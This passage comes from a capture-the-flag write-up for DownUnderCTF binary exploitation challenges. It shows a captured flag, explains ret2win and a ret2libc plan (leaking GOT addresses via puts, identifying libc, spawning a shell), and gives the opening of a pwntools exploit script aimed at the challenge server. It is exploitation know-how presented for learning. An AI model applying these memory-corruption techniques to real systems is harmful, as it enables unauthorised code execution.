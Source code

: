 ```
$ cat flag.txt
DUCTF{h0w_d1d_you_c4LL_That_funCT10n?!?!?}
```

The fact that the NX bit was set (the stack is not executable) would also be a good way to stop thinking about shellcode and just use what is already provided! These kinds of challenges are usually known as `ret2win` since we only need to return into a "win" function.

## Return to what (pwn) - 200 points {#Return-to-what}

> This will show my friends!
> 
> nc chal.duc.tf 30003
> 
> Attached files:
> 
> * return-to-what (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

Given the task name I really suspected [ROP (Return-Oriented Programming)](https://en.wikipedia.org/wiki/Return-oriented_programming) would be necessary for this one. It seems like I was right :)
The given binary is 64bit and has NX enabled (thus removing the possibility of using shellcode straight away).

After checking the gadgets via `pwntools` and concluding that there weren't many, I started thinking about ret2libc (kind of a variation of ROP in which after knowing the libc adresses we ROP into its functions - being able to execute things like `system` or `execve` to get a shell).

Thus, I had my plan: I would ROP into the PLT entry of `puts` to call it and leak GOT addresses of libc functions in order to identify the correct libc version (using [libc.blukat.me](https://libc.blukat.me/)).
After knowing this, we can use [`pwninit`](https://github.com/io12/pwninit) to get a compatible linker to run the program and continue developing our exploit.
Now, we just need to leak the address of a libc function from the GOT again in order to know the libc base address (I'm assuming ASLR is enabled on the remote machine). Then, we can use that to ret2libc and get our shell!

```python
# exploit.py
from pwn import *
# 64 bit, NX set

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./return-to-what')
libc = ELF('./libc6_2.27-3ubuntu1_amd64.so')
ld = ELF('./ld-2.27.so')


def conn():
    if args.REMOTE:
        return remote("chal.duc.tf", 30003)
    else:
        return process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
        # return process()


r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

# Detecting EIP overrun
# payload = cyclic(1024)
# eip_offset = cyclic_find(0x6161616f)
eip_offset = 56

```